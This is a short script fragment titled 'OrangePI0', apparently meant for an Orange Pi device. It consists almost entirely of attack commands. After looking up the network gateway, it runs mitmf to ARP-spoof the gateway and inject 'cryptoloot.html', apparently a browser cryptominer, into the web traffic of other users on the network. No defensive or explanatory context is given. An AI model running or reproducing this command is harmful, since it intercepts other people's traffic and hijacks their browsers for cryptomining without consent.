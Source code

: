 # OrangePI0
ip route | grep default
ifconfig
mitmf --inject --html-file /root/OrangePI0/cryptoloot.html --spoof --arp --gateway 192.168.0.1 -i eth0
